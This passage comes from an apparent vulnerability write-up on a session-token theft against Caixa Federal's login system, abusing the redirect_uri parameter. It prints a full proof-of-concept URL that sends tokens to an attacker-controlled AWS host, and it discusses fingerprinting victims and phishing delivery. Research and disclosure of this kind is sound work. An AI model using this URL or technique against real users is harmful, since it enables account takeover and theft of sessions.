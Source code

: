 ![Caixa Federal Home Page Website](/images/publications/caixa-account-takeover/snippet-catcher.png)

-

This code is responsible for capturing and storing Session Tokens what are sent to the "malicious" URL under my control. In addition to capturing the Session Token and storing it in a log file, this script redirects the user once again, this time going to the true URL and having a genuine session on the Caixa Federal system. As such, it is unlikely that an ordinary user will know that he is being scammed. The PoC URL was as follows:

[https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://ec2-54-84-102-177.compute-1.amazonaws.com/](https://acessoseguro.sso.caixa.gov.br/cidadao/auth?response_type=code&client_id=portal-inter&segmento=CIDADAO01&template=portal&redirect_uri=http://ec2-54-84-102-177.compute-1.amazonaws.com/)

And this was the result:

<iframe width="100%" height="523" src="https://www.youtube.com/embed/l2ZpggLSz_o" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"></iframe>

--

The PoC performed was relatively simple, capturing only the Session Token, but other information could be captured, such as, but not limited to: User IP, Browser UserAgent. This way we could know your browser, operating system, screen size and other even more critical information - such information could be used for example to make a fingerprint of the user.

The attack surface here is still somewhat restricted, requiring the user to enter the URL of their own accord (through phishing and/or social engineering) and certain users are already aware of it, thinking about it, I kept looking a more convincing way to send this malicious link to the user.
